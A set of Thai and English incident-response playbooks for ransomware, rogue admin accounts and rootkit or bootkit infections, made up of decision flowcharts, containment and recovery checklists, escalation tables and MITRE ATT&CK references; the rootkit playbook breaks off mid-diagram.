**ระดับความรุนแรง**: วิกฤต | **หมวดหมู่**: การโจมตี
**MITRE ATT&CK**: [T1486](https://attack.mitre.org/techniques/T1486/) (Data Encrypted for Impact), [T1489](https://attack.mitre.org/techniques/T1489/) (Service Stop)
**ทริกเกอร์**: EDR alert, ผู้ใช้รายงานไฟล์ถูกเข้ารหัส, Ransom note, Canary file triggered

> 🚨 **ห้ามจ่ายค่าไถ่** โดยไม่ปรึกษา Legal + CISO — การจ่ายไม่รับประกันการกู้คืน

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Ransomware"] --> Scope{"📊 ขอบเขต?"}
    Scope -->|เครื่องเดียว| Single["🟠 Isolate + Investigate"]
    Scope -->|หลายเครื่อง/server| Multi["🔴 Major Incident"]
    Scope -->|AD/DC ถูกเข้ารหัส| Critical["🔴🔴 ทั้งองค์กร"]
    Single --> Contain["🔒 Isolate Host"]
    Multi --> Contain
    Critical --> War["🏢 War Room — CEO/CISO/Legal"]
    Contain --> Backup{"💾 Backup สะอาด?"}
    Backup -->|ใช่| Restore["♻️ กู้คืน"]
    Backup -->|ไม่| Decrypt["🔑 ตรวจ Decryptor"]
```

---

## หลังเหตุการณ์ (Post-Incident)

- [ ] ทดสอบการ restore จาก backup ให้สมบูรณ์
- [ ] ใช้ 3-2-1 backup strategy
- [ ] ทบทวน endpoint hardening (macros, RDP, PowerShell)
- [ ] ใช้ network segmentation ป้องกัน lateral movement
- [ ] จัด awareness training เรื่อง phishing/ransomware
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)


## 1. การวิเคราะห์

### 1.1 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ตระกูลแรนซัมแวร์ (ชื่อ, ransom note) | ID Ransomware | ☐ |
| จำนวนเครื่อง/server ที่ได้รับผลกระทบ | EDR / SIEM | ☐ |
| Entry vector (phishing/RDP/exploit) | EDR timeline | ☐ |
| มี data exfiltration ก่อนเข้ารหัส? (double extortion) | Netflow / DLP | ☐ |
| Backup ปลอดภัย? (offline / immutable?) | Backup team | ☐ |
| AD/DC ได้รับผลกระทบ? | AD admin | ☐ |
| มี decryptor ฟรี? | [NoMoreRansom.org](https://www.nomoreransom.org/) | ☐ |

### 1.2 กลุ่มแรนซัมแวร์และพฤติกรรม

| กลุ่ม | Double Extortion | สร้างบน |
|:---|:---|:---|
| LockBit 3.0 | ✅ | Builder leaked |
| BlackCat/ALPHV | ✅ | Rust |
| Cl0p | ✅ (MOVEit, GoAnywhere) | File transfer exploit |
| PLAY | ✅ | — |
| Royal/BlackSuit | ✅ | — |

---

## 2. การควบคุม

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Isolate** ทุกเครื่องที่ได้รับผลกระทบ (EDR networkquarantine) | ☐ |
| 2 | **ตัด** internet access ขาออก (ป้องกันเข้ารหัสเพิ่ม) | ☐ |
| 3 | **รีเซ็ตรหัสผ่าน** KRBTGT (2 ครั้ง) ถ้า AD ถูกบุกรุก | ☐ |
| 4 | **ปิด RDP** ภายนอกทั้งหมด | ☐ |
| 5 | **ตรวจ** backup — ยังสะอาด? Disconnect backup! | ☐ |
| 6 | **แจ้ง** Executive / Legal ทันที | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบมัลแวร์ + persistence ทั้งหมด | ☐ |
| 2 | ล้าง GPO/script ที่ใช้กระจายมัลแวร์ | ☐ |
| 3 | หมุนเวียน credentials ทั้งหมด (admin, service accounts) | ☐ |
| 4 | รีเซ็ต KRBTGT (ถ้ายังไม่ได้ทำ) | ☐ |

### ผังลำดับการกู้คืน

```mermaid
graph LR
    A["1️⃣ AD/DC"] --> B["2️⃣ DNS/DHCP"]
    B --> C["3️⃣ Critical Servers"]
    C --> D["4️⃣ Business Apps"]
    D --> E["5️⃣ Workstations"]
    style A fill:#ff4444,color:#fff
    style B fill:#ff6600,color:#fff
    style C fill:#ff9900,color:#fff
    style D fill:#ffcc00,color:#000
    style E fill:#88cc00,color:#000
```

### ผังสื่อสารระหว่างเหตุการณ์

```mermaid
sequenceDiagram
    participant SOC
    participant CISO
    participant Legal
    participant PR
    participant CEO
    SOC->>CISO: 🚨 ยืนยัน Ransomware
    CISO->>Legal: ประเมิน PDPA / กฎหมาย
    CISO->>CEO: แจ้ง BCP activation
    Legal->>CISO: แนะนำการจ่ายค่าไถ่ / แจ้งเตือน
    CISO->>PR: เตรียมแถลงการณ์ (ถ้าจำเป็น)
    PR->>CEO: อนุมัติแถลงการณ์
    SOC->>CISO: อัปเดตสถานะทุก 2 ชม.
```

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | กู้คืนจาก backup (ตรวจสอบว่าสะอาดก่อน) | ☐ |
| 2 | กู้คืน AD/DC ก่อน → จากนั้น server → workstation | ☐ |
| 3 | ใช้ immutable backups (3-2-1 rule) | ☐ |
| 4 | Deploy EDR ทุกเครื่อง + ปิด RDP ภายนอก | ☐ |
| 5 | Tabletop exercise ทุก 6 เดือน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| ยืนยัน ransomware | CISO + Major Incident ทันที |
| AD/DC ถูกเข้ารหัส | CEO, Legal, PR |
| Data exfiltration (double extortion) | Legal + DPO (PDPA 72 ชม.) |
| ธุรกิจหยุดชะงัก | BCP team + Executive |
| กลุ่ม ransomware เผยแพร่ข้อมูล | PR + Legal + Law Enforcement |

---

### ผัง 3-2-1 Backup Strategy

```mermaid
graph TD
    Backup["💾 3-2-1 Backup"] --> Three["📋 3 copies"]
    Three --> Two["🗄️ 2 types of media"]
    Two --> One["☁️ 1 offsite/air-gapped"]
    One --> Test["🧪 Test restore monthly"]
    Test --> Immutable["🔒 Immutable backup"]
    style Backup fill:#3498db,color:#fff
    style Immutable fill:#27ae60,color:#fff
```

### ผังตัดสินใจ Ransom Payment

```mermaid
graph TD
    Pay{"💰 จ่ายค่าไถ่?"} -.->|⚠️ ไม่แนะนำ| Risks["❌ ความเสี่ยง"]
    Pay --> Legal["⚖️ Legal consult"]
    Risks --> R1["ไม่รับประกัน decryption"]
    Risks --> R2["สนับสนุนอาชญากรรม"]
    Risks --> R3["อาจจ่ายซ้ำ"]
    Legal --> CISO["🧑‍💼 CISO ตัดสินใจ"]
    CISO --> Recovery["♻️ Recovery Plan"]
    style Pay fill:#e74c3c,color:#fff
    style Risks fill:#c0392b,color:#fff
    style Recovery fill:#27ae60,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Ransomware Bulk Renaming | [file_bulk_renaming_ransomware.yml](../../08_Detection_Engineering/sigma_rules/file_bulk_renaming_ransomware.yml) |
| PowerShell Encoded Command | [proc_powershell_encoded.yml](../../08_Detection_Engineering/sigma_rules/proc_powershell_encoded.yml) |
| Execution from Temp/Downloads | [proc_temp_folder_execution.yml](../../08_Detection_Engineering/sigma_rules/proc_temp_folder_execution.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-03 มัลแวร์](Malware_Infection.th.md)
- [PB-09 Lateral Movement](Lateral_Movement.th.md)

## Ransomware Decision Framework

| Question | Yes | No |
|:---|:---|:---|
| Backups available? | Restore from backup | Assess alternatives |
| Backups verified clean? | Begin restore | Scan backups first |
| Ransom affordable? | Legal consult | Focus on recovery |
| Decryptor available? | Use ID Ransomware | Continue assessment |
| Critical data affected? | Escalate to CEO | Standard IR |

### Recovery Priority Matrix

| System | Priority | RTO | Restore Method |
|:---|:---|:---|:---|
| Domain Controllers | P1 | 4 hrs | DSRM restore |
| Core databases | P1 | 8 hrs | Backup restore |
| Email servers | P2 | 12 hrs | Cloud failover |
| File servers | P2 | 24 hrs | Backup restore |
| Workstations | P3 | 48 hrs | Reimage |

### Post-Ransomware Hardening

```
Hardening Checklist:
━━━━━━━━━━━━━━━━━━━
☐ Patch all systems to current
☐ Reset ALL credentials
☐ Enable MFA everywhere
☐ Segment network (micro)
☐ Deploy EDR on all endpoints
☐ Implement backup 3-2-1 rule
☐ Test restore procedures
```

### Encryption Assessment

| Check | Method | Result |
|:---|:---|:---|
| Encrypted file count | Dir scan | [N] files |
| Decryptor available | nomoreransom.org | Yes/No |
| Backup integrity | Restore test | Verified/Failed |

## อ้างอิง

- [CISA — Ransomware Guide](https://www.cisa.gov/stopransomware)
- [NoMoreRansom.org](https://www.nomoreransom.org/)
- [MITRE ATT&CK T1486](https://attack.mitre.org/techniques/T1486/)


---

## File: 05_Incident_Response/Playbooks/Rogue_Admin.en.md

# Playbook: New Rogue Admin Account

**ID**: PB-15
**Severity**: Critical | **Category**: Privilege Escalation / Persistence
**MITRE ATT&CK**: [T1098](https://attack.mitre.org/techniques/T1098/) (Account Manipulation), [T1136](https://attack.mitre.org/techniques/T1136/) (Create Account)
**Trigger**: PAM alert, AD audit anomaly, Whistleblower report, UEBA, SOD violation

### Behavioral Indicators

```mermaid
graph TD
    Monitor["👁️ UEBA/PAM"] --> A["🕐 Off-hours access"]
    Monitor --> B["📋 Bypass Change Mgmt"]
    Monitor --> C["🔑 Create backdoor account"]
    Monitor --> D["🗑️ Delete audit logs"]
    Monitor --> E["📤 Export data"]
    A --> Score["⚠️ High Risk Score"]
    B --> Score
    C --> Score
    D --> Score
    E --> Score
    Score --> SOC["🚨 Alert SOC"]
```

### Covert Investigation

```mermaid
sequenceDiagram
    participant SOC
    participant Legal
    participant HR
    participant Forensics
    SOC->>Legal: Consult before action
    Legal-->>SOC: Approve covert investigation
    SOC->>Forensics: Collect evidence (shadow copies)
    SOC->>SOC: Increase monitoring (don't alert target)
    Forensics-->>SOC: Evidence collected
    SOC->>HR: Submit report + evidence
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 New Admin Account Detected"] --> Ticket{"📋 Approved Change Request?"}
    Ticket -->|Yes, RFC exists| Verify["✅ Verify RFC details match"]
    Ticket -->|No RFC| Creator{"🔍 Who Created It?"}
    Verify -->|Match| FP["Close — Authorized"]
    Verify -->|Mismatch| Creator
    Creator --> CheckAcct{"Creator Account Status?"}
    CheckAcct -->|Compromised Indicators| Critical["🚨 Assume Breach"]
    CheckAcct -->|Legitimate Admin| Justify{"Business Justification?"}
    Justify -->|Valid| Policy["⚠️ Policy Violation — Educate"]
    Justify -->|None| Critical
    Critical --> DisableAll["🔒 Disable Rogue + Reset Creator"]
```

---

## 1. Analysis

### 1.1 Initial Checks

| Check | How | Done |
|:---|:---|:---:|
| RFC / Change request exists? | ITSM / Change Management system | ☐ |
| Who created the account? | Event ID 4720 (account created) + 4732/4728 (group add) | ☐ |
| When was it created? | Event timestamp — during business hours? | ☐ |
| From which system? | Source workstation / server in event log | ☐ |
| What groups was it added to? | Domain Admins, Enterprise Admins, Schema Admins? | ☐ |

### 1.2 Creator Account Investigation

| Check | How | Done |
|:---|:---|:---:|
| Creator's recent login locations | SIEM — impossible travel? New devices? | ☐ |
| Creator's recent admin actions | AD audit log — unusual activity? | ☐ |
| Other accounts created by same user | SIEM query: EventID 4720 by creator | ☐ |
| Was creator account accessed from compromised host? | Cross-reference with EDR alerts | ☐ |

### 1.3 Scope Assessment

- [ ] Were any other accounts created by the same actor?
- [ ] Were group memberships changed on existing accounts?
- [ ] Were any GPOs modified?
- [ ] Signs of lateral movement from the new admin account?
- [ ] Any data access from the rogue account?

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Disable** the rogue admin account | AD / IdP | ☐ |
| 2 | **Reset** the creator's password | AD / IdP | ☐ |
| 3 | **Revoke** all sessions for both accounts | IdP | ☐ |
| 4 | **Remove** rogue account from all privileged groups | AD | ☐ |
| 5 | **Block** source IP (if external access) | Firewall | ☐ |

### 2.2 Extended Containment

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Audit ALL privileged group memberships (Domain Admins, Enterprise Admins, Schema Admins, local Admins) | ☐ |
| 2 | Check for additional new accounts or group changes in past 72 hours | ☐ |
| 3 | Review GPO modifications in same timeframe | ☐ |
| 4 | Check for Golden Ticket / Silver Ticket indicators | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Delete** the rogue account (after forensic preservation) | ☐ |
| 2 | Remove any persistence created by the rogue account (scheduled tasks, services, GPOs) | ☐ |
| 3 | Reset KRBTGT password (if Domain Admin compromise suspected) — **twice, 12 hours apart** | ☐ |
| 4 | Rotate all service account passwords that may have been exposed | ☐ |
| 5 | Scan creator's workstation for malware | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Conduct full privileged access review | ☐ |
| 2 | Enable enhanced monitoring for privileged group changes (SIEM rule) | ☐ |
| 3 | Implement PAM / Just-In-Time admin if not already in place | ☐ |
| 4 | Brief all Domain Admins on incident | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Rogue account name | | AD event log |
| Creator account | | Event ID 4720 |
| Source workstation | | Event log |
| Creation timestamp | | Event log |
| Groups added to | | Event ID 4728/4732 |
| Attacker IP (if external) | | VPN / RDP logs |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Domain Admin group compromised | CISO immediately |
| Multiple rogue accounts found | Major Incident |
| KRBTGT compromise suspected (Golden Ticket) | External IR + Microsoft DART |
| GPO modifications detected | CISO + AD team |
| Creator was a service account | Application owner + Security |

---

## 7. Post-Incident

- [ ] Review all administrator accounts and remove unnecessary privileges
- [ ] Implement PIM/PAM for all admin-level access
- [ ] Enable command-line logging for all admin sessions
- [ ] Review and update separation of duties policies
- [ ] Conduct access recertification for all privileged accounts
- [ ] Implement break-glass procedure for emergency admin access
- [ ] Review background check policies for admin-level personnel
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### Admin Access Control

```mermaid
graph TD
    Admin["👑 Admin Access"] --> PIM["🔑 PIM: JIT activation"]
    Admin --> MFA["📱 MFA enforced"]
    Admin --> PAW["💻 PAW: dedicated device"]
    Admin --> Log["📋 Audit every action"]
    PIM --> Review["👁️ Monthly review"]
    MFA --> Review
    PAW --> Review
    style Admin fill:#e74c3c,color:#fff
    style PIM fill:#27ae60,color:#fff
```

### Evidence Preservation

```mermaid
sequenceDiagram
    participant SOC
    participant Legal
    participant Forensics
    participant HR
    SOC->>Legal: 🔒 Request legal hold
    Legal-->>SOC: ✅ Approved
    SOC->>Forensics: Preserve logs + screenshots
    Forensics->>Forensics: Chain of custody
    Forensics-->>SOC: 📋 Evidence package
    SOC->>HR: Submit evidence
    Note over SOC: ⚠️ Do not let suspect delete data!
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| User Added to Domain Admins | [win_domain_admin_group_add.yml](../../08_Detection_Engineering/sigma_rules/win_domain_admin_group_add.yml) |
| New Local User Created | [win_new_user_created.yml](../../08_Detection_Engineering/sigma_rules/win_new_user_created.yml) |
| Windows Security Log Cleared | [win_security_log_cleared.yml](../../08_Detection_Engineering/sigma_rules/win_security_log_cleared.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-07 Privilege Escalation](Privilege_Escalation.en.md)
- [PB-12 Lateral Movement](Lateral_Movement.en.md)

## References

- [MITRE ATT&CK T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [MITRE ATT&CK T1136 — Create Account](https://attack.mitre.org/techniques/T1136/)
- [Microsoft Securing Privileged Access](https://learn.microsoft.com/en-us/security/compass/securing-privileged-access)


---

## File: 05_Incident_Response/Playbooks/Rogue_Admin.th.md

# Playbook: แอดมินกระทำผิด / Insider Admin

**ID**: PB-20
**ระดับความรุนแรง**: วิกฤต | **หมวดหมู่**: ภัยคุกคามจากภายใน
**MITRE ATT&CK**: [T1078.002](https://attack.mitre.org/techniques/T1078/002/) (บัญชีโดเมน), [T1098](https://attack.mitre.org/techniques/T1098/) (การจัดการบัญชี)
**ทริกเกอร์**: PAM alert, AD audit anomaly, whistleblower report, UEBA, SOD violation


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน admin accounts ทั้งหมดและลบสิทธิ์ที่ไม่จำเป็น
- [ ] ใช้ PIM/PAM สำหรับ admin access ทั้งหมด
- [ ] เปิด command-line logging สำหรับ admin sessions
- [ ] ทบทวน separation of duties policies
- [ ] ทำ access recertification สำหรับ privileged accounts
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังตัวบ่งชี้พฤติกรรม

```mermaid
graph TD
    Monitor["👁️ UEBA/PAM"] --> A["🕐 เข้าถึงนอกเวลา"]
    Monitor --> B["📋 bypass Change Mgmt"]
    Monitor --> C["🔑 สร้าง backdoor account"]
    Monitor --> D["🗑️ ลบ audit logs"]
    Monitor --> E["📤 export ข้อมูล"]
    A --> Score["⚠️ Risk Score สูง"]
    B --> Score
    C --> Score
    D --> Score
    E --> Score
    Score --> SOC["🚨 Alert SOC"]
```

### ผัง Covert Investigation

```mermaid
sequenceDiagram
    participant SOC
    participant Legal
    participant HR
    participant Forensics
    SOC->>Legal: ปรึกษาก่อนดำเนินการ
    Legal-->>SOC: อนุมัติ covert investigation
    SOC->>Forensics: เก็บหลักฐาน (shadow copies)
    SOC->>SOC: เพิ่ม monitoring (ไม่แจ้ง target)
    Forensics-->>SOC: หลักฐานครบ
    SOC->>HR: ส่งรายงาน + หลักฐาน
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 พฤติกรรม Admin ผิดปกติ"] --> Type{"🔍 ประเภท?"}
    Type -->|เข้าถึงข้อมูลไม่จำเป็น| Data["📊 Data Access Anomaly"]
    Type -->|สร้างบัญชี/สิทธิ์ลับ| Account["👤 สร้าง Backdoor Account"]
    Type -->|ลบ/เปลี่ยน logs| Cover["🗑️ ปกปิดร่องรอย"]
    Type -->|เปลี่ยน security config| Config["⚙️ Security Config Tampering"]
    Data --> Covert["🤫 สอบสวนลับ"]
    Account --> Covert
    Cover --> Covert
    Config --> Overt["🔒 ตอบสนองทันที"]
    Covert --> Evidence["📋 รวบรวมหลักฐาน"]
    Evidence --> Action["⚖️ ดำเนินการร่วม HR/Legal"]
```

---

## 1. การวิเคราะห์

### 1.1 ตัวบ่งชี้พฤติกรรม

| ตัวบ่งชี้ | ความเสี่ยง | การตรวจจับ |
|:---|:---|:---|
| เข้าถึงข้อมูลนอกขอบเขตหน้าที่ | 🔴 สูง | UEBA / DLP |
| สร้างบัญชีหรือ service account ลับ | 🔴 สูง | AD audit |
| เพิ่มสิทธิ์ให้ตัวเองหรือผู้อื่นโดยไม่ได้รับอนุมัติ | 🔴 สูง | IAM audit |
| ลบหรือแก้ไข logs | 🔴 วิกฤต | SIEM integrity |
| ปิดการ monitoring / เปลี่ยน security config | 🔴 วิกฤต | Change management |
| ส่งออกข้อมูลจำนวนมาก | 🔴 สูง | DLP / Netflow |
| เข้าถึงนอกเวลาทำงานบ่อยๆ | 🟡 ปานกลาง | SIEM |

### 1.2 รายการตรวจสอบ (ดำเนินการอย่างลับ)

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ระบุบัญชี admin ที่เกี่ยวข้อง | SIEM / AD audit | ☐ |
| กิจกรรมที่ผิดปกติคืออะไร? | UEBA / Logs | ☐ |
| มีบัญชีลับถูกสร้างหรือไม่? | AD / IAM audit | ☐ |
| มีสิทธิ์ถูกเปลี่ยนแปลงหรือไม่? | IAM / RBAC audit | ☐ |
| มีข้อมูลถูกส่งออกหรือไม่? | DLP / Netflow | ☐ |
| มี logs ถูกลบหรือแก้ไขหรือไม่? | SIEM log integrity | ☐ |
| ประวัติด้านวินัยหรือ HR? | HR consultation | ☐ |
| กำลังลาออก (notice period)? | HR | ☐ |

> ⚠️ **สำคัญ**: ห้ามแจ้งผู้ต้องสงสัยจนกว่าจะรวบรวมหลักฐานเสร็จและหารือกับ HR/Legal แล้ว

---

## 2. การควบคุม

### 2.1 การสอบสวนลับ (พบ: เข้าถึงข้อมูล / ส่งออก)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เพิ่ม monitoring ลับบนบัญชี admin | ☐ |
| 2 | บันทึก session recordings (หากมี PAM) | ☐ |
| 3 | สำรอง forensic image ของเครื่องที่ใช้ | ☐ |
| 4 | แจ้ง HR + Legal อย่างลับๆ | ☐ |
| 5 | ตรวจสอบ second admin/peer review บัญชี | ☐ |

### 2.2 การตอบสนองทันที (พบ: ลบ logs / เปลี่ยน security / backdoor)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **ปิดบัญชี admin** ทันที | ☐ |
| 2 | **ลบ** backdoor accounts / service accounts ที่สร้าง | ☐ |
| 3 | **คืนค่า** security configurations | ☐ |
| 4 | **ทบทวน** syslog forwarding / SIEM integrity | ☐ |
| 5 | **สำรอง forensic image** | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบบัญชี/สิทธิ์ที่ไม่ได้รับอนุมัติทั้งหมด | ☐ |
| 2 | คืนค่า configurations ที่ถูกเปลี่ยน | ☐ |
| 3 | หมุนเวียน credentials ที่ admin เข้าถึงได้ | ☐ |
| 4 | ตรวจสอบว่ามี persistence mechanisms อื่นหรือไม่ | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ใช้ PAM (Privileged Access Management) สำหรับบัญชี admin ทั้งหมด | ☐ |
| 2 | บังคับ admin MFA + session recording | ☐ |
| 3 | ใช้ JIT (Just-In-Time) admin access | ☐ |
| 4 | ใช้ dual-approval สำหรับ security-critical changes | ☐ |
| 5 | ตรวจสอบสิทธิ์ admin ทุกไตรมาส | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| ข้อมูลลูกค้าถูกส่งออก | Legal + DPO (PDPA 72 ชม.) |
| Logs ถูกลบ/แก้ไข | CISO ทันที |
| Backdoor account สร้างขึ้น | CISO + IT Director |
| ทำร่วมกับบุคคลภายนอก | Law Enforcement |
| Domain Admin / Root ถูกใช้ในทางที่ผิด | Major Incident |

---

### ผัง Admin Access Control

```mermaid
graph TD
    Admin["👑 Admin Access"] --> PIM["🔑 PIM: JIT activation"]
    Admin --> MFA["📱 MFA enforced"]
    Admin --> PAW["💻 PAW: dedicated device"]
    Admin --> Log["📋 Audit every action"]
    PIM --> Review["👁️ Monthly review"]
    MFA --> Review
    PAW --> Review
    style Admin fill:#e74c3c,color:#fff
    style PIM fill:#27ae60,color:#fff
```

### ผัง Evidence Preservation

```mermaid
sequenceDiagram
    participant SOC
    participant Legal
    participant Forensics
    participant HR
    SOC->>Legal: 🔒 Request legal hold
    Legal-->>SOC: ✅ Approved
    SOC->>Forensics: Preserve logs + screenshots
    Forensics->>Forensics: Chain of custody
    Forensics-->>SOC: 📋 Evidence package
    SOC->>HR: ส่งหลักฐาน
    Note over SOC: ⚠️ ห้ามให้ suspect ลบข้อมูล!
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| User Added to Domain Admins | [win_domain_admin_group_add.yml](../../08_Detection_Engineering/sigma_rules/win_domain_admin_group_add.yml) |
| New Local User Created | [win_new_user_created.yml](../../08_Detection_Engineering/sigma_rules/win_new_user_created.yml) |
| Windows Security Log Cleared | [win_security_log_cleared.yml](../../08_Detection_Engineering/sigma_rules/win_security_log_cleared.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-14 ภัยคุกคามจากภายใน](Insider_Threat.th.md)
- [PB-15 การลบ Log](Log_Clearing.th.md)

## Rogue Admin Detection Indicators

| Indicator | Detection | Risk |
|:---|:---|:---|
| Off-hours admin action | Time-based alerting | High |
| Unauthorized config change | Change management diff | High |
| Security control disable | SIEM watchlist | Critical |
| Bulk data access | UEBA volume anomaly | Critical |
| Account creation/modification | AD audit logs | Medium |

### Investigation Steps (Sensitive)

| Step | Action | Precaution |
|:---|:---|:---|
| 1 | Review all admin actions (30d) | Query by SOC manager only |
| 2 | Compare approved vs actual changes | Cross-ref with CAB records |
| 3 | Capture forensic evidence | Legal hold if needed |
| 4 | Coordinate HR + Legal | In-person only |

## อ้างอิง

- [MITRE ATT&CK T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)
- [NIST SP 800-53 — AC-6 Least Privilege](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)


---

## File: 05_Incident_Response/Playbooks/Rootkit_Bootkit.en.md

# Playbook: Rootkit / Bootkit Response

**ID**: PB-45
**Severity**: Critical | **Category**: Defense Evasion / Persistence
**MITRE ATT&CK**: [T1014](https://attack.mitre.org/techniques/T1014/) (Rootkit), [T1542](https://attack.mitre.org/techniques/T1542/) (Pre-OS Boot), [T1542.003](https://attack.mitre.org/techniques/T1542/003/) (Bootkit)
**Trigger**: EDR alert (kernel-level hooking), AV (rootkit detection), system instability with hidden processes, UEFI integrity check failure

> ⚠️ **CRITICAL**: Rootkits operate below the OS — standard tools CANNOT detect them. Bootkits survive OS reinstallation. Specialized tools and hardware reimaging may be required.

### Rootkit / Bootkit Taxonomy

```mermaid
graph TD
    Root["💀 Rootkit / Bootkit"] --> User["User-mode Rootkit\nAPI hooking, DLL injection"]
    Root --> Kernel["Kernel-mode Rootkit\nDriver-level hiding"]
    Root --> UEFI["UEFI/Bootkit\nPre-OS persistence"]
    Root --> HW["Hardware/Firmware\nHDD/SSD firmware"]
    
    User --> UEx["Hide processes\nHide files\nHide connections"]
    Kernel --> KEx["Kernel callbacks\nFilter drivers\nDKOM"]
    UEFI --> BEx["MBR/VBR modification\nUEFI implant\nSecure Boot bypass"]
    HW --> HEx["SSD firmware mod\nNIC firmware\nBMC/IPMI implant"]
    
    style Root fill:#660000,color:#fff
    style Kernel fill:#cc0000,color:#fff
    style UEFI fill:#cc0000,color:#fff
    style HW fill:#660000,color:#fff
```

### Known Rootkit Families

```mermaid
graph TD
    subgraph "UEFI/Bootkits"
        B1["BlackLotus\nBypass Secure Boot"]
        B2["CosmicStrand\nUEFI firmware rootkit"]
        B3["MosaicRegressor\nUEFI implant"]
        B4["ESPecter\nEFI partition"]
    end
    subgraph "Kernel Rootkits"
        K1["Necurs\nKernel driver"]
        K2["ZeroAccess\nKernel hooks"]
        K3["TDL4/TDSS\nMBR infection"]
        K4["FiveSys\nSigned driver"]
    end
    style B1 fill:#660000,color:#fff
    style B2 fill:#660000,color:#fff
    style K1 fill:#cc0000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Suspected Rootkit/Bootkit"] --> Source{"Detection method?"}
    Source -->|"EDR"| EDR["Kernel hooking detected\nSuspicious driver loaded"]
    Source -->|"AV/UEFI scan"| AV["Rootkit signature match\nor integrity failure"]
    Source -->|"Anomaly"| Anomaly["Hidden processes\nMissing disk space\nUnexplained network traffic"]
    EDR --> Confirm["Run offline rootkit scanner"]
    AV --> Confirm
    Anomaly --> Confirm
    Confirm --> Found{"Rootkit confirmed?"}
    Found -->|"User-mode"| UserR["🟠 Medium\nRemovable with AV"]
    Found -->|"Kernel-mode"| KernelR["🔴 Critical\nReimage required"]
    Found -->|"UEFI/Bootkit"| UEFIR["💀 Catastrophic\nReflash firmware"]
    Found -->|"Not found"| FP["Continue monitoring\nSchedule deep scan"]
    KernelR --> Isolate["ISOLATE — preserve for forensics"]
    UEFIR --> Isolate
    style Alert fill:#660000,color:#fff
    style UEFIR fill:#660000,color:#fff
    style KernelR fill:#cc0000,color:#fff
```

### Detection Challenge Visualization

```mermaid
graph TD
    subgraph "Visibility Layers"
        L1["Application Layer\n✅ Standard AV can see"]
        L2["User-mode API\n⚠️ API hooks can hide"]
        L3["Kernel / Drivers\n🔴 Kernel rootkits hide here"]
        L4["Boot Process\n💀 Bootkits load before OS"]
        L5["Firmware/UEFI\n💀 Nearly invisible"]
    end
    L1 --> L2 --> L3 --> L4 --> L5
    style L1 fill:#00aa00,color:#fff
    style L2 fill:#ffcc00,color:#000
    style L3 fill:#ff4444,color:#fff
    style L4 fill:#cc0000,color:#fff
    style L5 fill:#660000,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant EDR
    participant SOC as SOC Analyst
    participant IR as IR Team
    participant Forensics
    participant IT as IT Ops

    EDR->>SOC: 🚨 Kernel-level anomaly detected
    SOC->>SOC: Verify with offline scan tool
    SOC->>IR: Escalate — rootkit suspected
    IR->>Forensics: Boot from clean USB, scan offline
    Forensics->>IR: Confirm rootkit type & family
    IR->>IT: Isolate — do NOT reboot (may destroy evidence)
    IR->>Forensics: Memory dump + disk image
    Forensics->>IR: Full analysis report
    IR->>IT: Reimage (kernel) or reflash (UEFI)
```

### Rootkit Persistence Depth

```mermaid
graph TD
    Persist["Persistence Depth"] --> AppP["Application\nRestart survives reboot"]
    Persist --> ServiceP["Service/Driver\nSurvives reboot"]
    Persist --> BootP["Boot Sector\nSurvives OS reinstall"]
    Persist --> FirmP["Firmware/UEFI\nSurvives disk replacement"]
    AppP --> Reset1["🟢 Reset: Remove app/service"]
    ServiceP --> Reset2["🟡 Reset: Reimage OS"]
    BootP --> Reset3["🔴 Reset: Wipe disk + reimage"]
